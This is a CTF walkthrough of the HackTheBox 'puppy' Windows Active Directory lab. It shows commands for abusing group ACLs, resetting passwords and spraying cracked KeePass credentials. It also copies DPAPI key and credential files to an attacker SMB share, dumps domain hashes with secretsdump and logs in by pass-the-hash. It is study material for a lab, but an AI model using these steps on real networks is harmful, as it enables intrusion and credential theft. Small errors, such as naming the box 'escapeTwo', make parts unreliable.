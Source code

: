 ```yaml
---
categories:
- CTF
layout: post
image:
  path: preview.png
media_subpath: /assets/posts/2025-07-04-puppy-hackthebox
tags:
- hackthebox
- windows
- active directory
- acl
- keepass
title: puppy @ HackTheBox
---
```

puppy is an medium Windows machine on [hackthebox.eu](https://www.hackthebox.eu). Starting credentials are given to you. Enumerating our starting account, we find ourselfs being apart of the HR group which has GenericWrite over the developers group. We add ourselfs to the Developers group which allows us to access the DEV SMB folder. Downloading the files we find a recovery key for keepass. Cracking this file gives us several usernames and passwords. Spraying these creds gains us access to a new account. This account is apart of the Senior Devs who has GenericAll over a user. Reseting their password gains us access to their account.
However, the account is set to disabled, using ldapmodify, we can enable the account. With this new user, they have a hidden file on their desktop, this file is encrypted using Windows DPAPI. By hosting your own smb share locally, we grab masterkey and the credentials file. Using impackets dpapi, decrypt the file with the masterkey to gain access to a new account. With this new user account, we can perform a desync attack on the domain controller, dumping the administrator hash and gaining control over the domain controller.

## User & Root Flag
This post is a walkthrough for escapeTwo, an medium machine on [hackthebox.eu](https://www.hackthebox.eu). 

The initial scan (`nmap -Pn -n -sC -sV -p- 10.129.168.239`) shows the following results:
```
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-04 23:43:26Z)
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
2049/tcp  open  nlockmgr      1-4 (RPC #100021)
3260/tcp  open  iscsi?
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49691/tcp open  msrpc         Microsoft Windows RPC
57284/tcp open  msrpc         Microsoft Windows RPC
57299/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-07-04T23:45:14
|_  start_date: N/A
|_clock-skew: 6h59m59s
```
## Fixing clock skew
```
sudo systemctl stop systemd-timesyncd
sudo ntpdate 10.129.168.239
```

## levi.james
Looking through bloodhound, levi.james is apart of the HR group who has GenericWrite over `Developers`.
![capture-1](capture-1.PNG)
```
bloodyAD --host '10.129.168.239' -d 'dc.puppy.htb' -u 'levi.james' -p 'KingofAkron2025!' add groupMember DEVELOPERS levi.james
```
![capture-3](capture-3.png)
Once we add ourselfs to the developers group, we can access the `DEV` smb share.

![capture-4](capture-4.PNG)
Downloading the files, we can use a keepass script to brute force the password.<br>
[keepass script](https://github.com/r3nt0n/keepass4brute)
![capture-5](capture-5.PNG)
Accessing this file reveals several usernames and passwords.
![capture-6](capture-6.PNG)
Using these usernames and passwords, we can spray them against the DC.
![capture-8](capture-8.PNG)

## ant.edwards
With a new username and password, we can access to ant's account.
Using bloodhound, we find that ant is apart of the senior developers group who has GenericAll privileges over adam.silver.
![capture-9.PNG](capture-9.PNG)
Using bloodyAD, we can reset his password.
```
bloodyAD --host '10.129.168.239' -d 'dc.puppy.htb' -u 'ant.edwards' -p 'Antman2025!' set password ADAM.SILVER Password123!
```
![capture-10.PNG](capture-10.PNG)
However, the account is disabled, so we'll have to enable it.
![capture-11.PNG](capture-11.PNG)
```
ldapsearch -x -H ldap://10.129.168.239 -D "ANT.EDWARDS@PUPPY.HTB" -W -b "DC=puppy,DC=htb" "(sAMAccountName=ADAM.SILVER)"
```
![capture-14.PNG](capture-14.PNG)

## adam.silver
Using `dir -h` in adam's desktop, we find a weird file.
This is most likely a hint towards DPAPI.
![capture-19.PNG](capture-19.PNG)
Create a shared smb folder (create a folder named share)
```
impacket-smbserver share ./share -smb2support
```
With the SMB share set up, copy the credentials and master key over.
```
copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407" \\10.10.16.48\share\masterkey

copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9" \\10.10.16.48\share\credentials
```
![capture-20.PNG](capture-20.PNG)

![capture-21.PNG](capture-21.PNG)
Using impackets dpapi, we can decrypt the masterkey.
```
impacket-dpapi masterkey -file masterkey -password 'ChefSteph2025!' -sid S-1-5-21-1487982659-1829050783-2281216199-1107
```
![capture-22.PNG](capture-22.PNG)
Using this key, we can then use it with the credentials file to get a new username and password.
![capture-23.PNG](capture-23.PNG)

## steph.cooper_adm
Viewing bloodhound, steph can perform a desync attack, allowing us to dump the hashes of the domain controller.
![capture-24.PNG](capture-24.PNG)
```
impacket-secretsdump 'puppy.htb/steph.cooper_adm:FivethChipOnItsWay2025!@10.129.232.128' 
```
![capture-25.PNG](capture-25.PNG)
```
evil-winrm -i 10.129.168.239 -u 'Administrator' -H 'bb0edc15e49ceb4120c7bd7e6e65d75b'
```